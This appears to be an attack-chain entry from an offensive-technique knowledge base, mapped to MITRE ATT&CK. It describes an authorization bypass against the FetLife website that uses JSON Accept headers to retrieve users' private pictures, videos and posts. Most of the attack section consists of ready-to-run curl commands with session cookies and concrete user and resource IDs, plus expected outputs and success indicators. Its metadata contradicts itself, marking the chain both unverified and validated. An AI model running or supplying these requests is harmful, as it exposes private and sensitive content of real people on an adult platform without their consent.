

---
tags:
  - authorization-bypass
  - json-api
  - information-disclosure
  - private-media-access
  - fetlife
type: attack_chain
tools:
  - '[[tools/curl]]'
tactics:
  - '[[Collection]]'
verified: false
platforms:
  - Web
submitted: true
complexity: low
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Test-FetLife-Endpoint-JSON-Behavior]]'
  - '[[procedures/Access-Private-FetLife-Pictures-via-JSON]]'
  - '[[procedures/Access-Private-FetLife-Videos-via-JSON]]'
  - '[[procedures/Access-Private-FetLife-Posts-via-JSON]]'
step_count: 4
techniques:
  - '[[Data from Information Repositories]]'
updated_at: '2025-12-14T17:30:46.709Z'
description: >-
  Multi-stage attack exploiting authorization bypass in FetLife's API endpoints
  to access private user pictures, videos, and posts through JSON responses
  without proper access controls.
skill_level: intermediate
impact_level: high
id: bcc93934-77eb-4168-a057-bfda6f3af546
validated: true
mitre_tactics:
  - '[[Collection]]'
mitre_techniques:
  - '[[Data from Information Repositories]]'
---
---
id: 123e4567-e89b-12d3-a456-426614174000
name: FetLife Authorization Bypass via JSON API Endpoints for Private Pictures Videos and Posts
type: attack_chain
description: "Multi-stage attack exploiting authorization bypass in FetLife's API endpoints to access private user pictures, videos, and posts through JSON responses without proper access controls."
verified: false
submitted: false
step_count: 4
created_at: 2023-10-01T00:00:00Z
updated_at: 2023-10-01T00:00:00Z
procedures: [[procedures/Test-FetLife-Endpoint-JSON-Behavior]], [[procedures/Access-Private-FetLife-Pictures-via-JSON]], [[procedures/Access-Private-FetLife-Videos-via-JSON]], [[procedures/Access-Private-FetLife-Posts-via-JSON]]
techniques: [[Data from Information Repositories]]
tactics: [[Collection]]
tags: authorization-bypass, json-api, information-disclosure, private-media-access, fetlife
platforms: Web
tools: [[tools/curl]]
---

# FetLife Authorization Bypass via JSON API Endpoints for Private Pictures Videos and Posts

Multi-stage attack chain demonstrating a complete attack workflow to bypass authorization in FetLife's web application by requesting JSON responses from API endpoints, allowing unauthorized access to private user content such as pictures, videos, and posts when resource IDs are known.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Low |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/curl]]

### Target Environment

- Web platform (FetLife application)
- No specific ports required (standard HTTPS on 443)
- Knowledge of target user ID and resource IDs (e.g., via enumeration or guessing)

### Initial Access Requirements

- Attacker must have a valid session cookie from FetLife (e.g., logged in as any user)
- Network access to https://fetlife.com
- Resource IDs for private content (pictures, videos, posts)

## Detailed Attack Procedures

### Step 1: Identify Endpoint Behavior
procedure: [[procedures/Test-FetLife-Endpoint-JSON-Behavior]]

**Objective**: Test the FetLife endpoint response behavior to confirm that JSON format bypasses authorization checks present in HTML responses.

**Instructions**: Use [[commands/curl-test-fetlife-endpoint-json]] to send a GET request to a sample endpoint with the Accept header set to application/json and observe the lack of access control enforcement.

```bash
curl https://fetlife.com/users/{user-id}/pictures/{pic-id} -H "Accept: application/json" --user-agent "not cur1"
```

**Expected Output**: JSON response containing resource details without authentication prompts, unlike HTML which enforces privacy checks.

**Success Indicators**:
- JSON data returned for a private resource
- No 403 Forbidden or redirect to login

### Step 2: Access Private Picture
procedure: [[procedures/Access-Private-FetLife-Pictures-via-JSON]]

**Objective**: Retrieve private user picture data via JSON endpoint without proper authorization.

**Instructions**: Execute [[commands/curl-fetlife-private-picture-json]] with a known private picture ID and session cookie to fetch the JSON response.

```bash
curl https://fetlife.com/users/14104003/pictures/120041856 -H "Cookie: _fl_sessionid={your-session}" -H "Accept: application/json" --user-agent "not cur1"
```

**Expected Output**: JSON object with private picture metadata, URL, and content accessible to unauthorized users.

**Success Indicators**:
- Private picture details exposed in JSON
- Confirmation of bypass by accessing content not visible in HTML

### Step 3: Access Private Video
procedure: [[procedures/Access-Private-FetLife-Videos-via-JSON]]

**Objective**: Retrieve private user video data via JSON endpoint without proper authorization.

**Instructions**: Run [[commands/curl-fetlife-private-video-json]] targeting a private video ID with the required headers.

```bash
curl https://fetlife.com/users/14104003/videos/3102890 -H "Cookie: _fl_sessionid={your-session}" -H "Accept: application/json" --user-agent "not cur1"
```

**Expected Output**: JSON response including private video information such as embed URLs and descriptions.

**Success Indicators**:
- Unauthorized access to video metadata
- No privacy enforcement in response

### Step 4: Access Private Post
procedure: [[procedures/Access-Private-FetLife-Posts-via-JSON]]

**Objective**: Retrieve private user post data via JSON endpoint without proper authorization.

**Instructions**: Use [[commands/curl-fetlife-private-post-json]] to request the private post in JSON format.

```bash
curl https://fetlife.com/users/14104003/posts/7673012 -H "Cookie: _fl_sessionid={your-session}" -H "Accept: application/json" --user-agent "not cur1"
```

**Expected Output**: JSON data revealing private post content, comments, and attachments.

**Success Indicators**:
- Exposure of sensitive post information
- Successful information disclosure

## Attack Chain Summary

### Key Achievements

1. Confirmed authorization bypass in JSON API responses for FetLife endpoints.
2. Accessed private pictures, videos, and posts using only resource IDs and a basic session.
3. Demonstrated high-impact privacy violation through unauthorized data retrieval.

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Data from Information Repositories]]

### MITRE ATT&CK Tactics

- [[Collection]]

---
*Last updated: 2023-10-01T00:00:00Z*
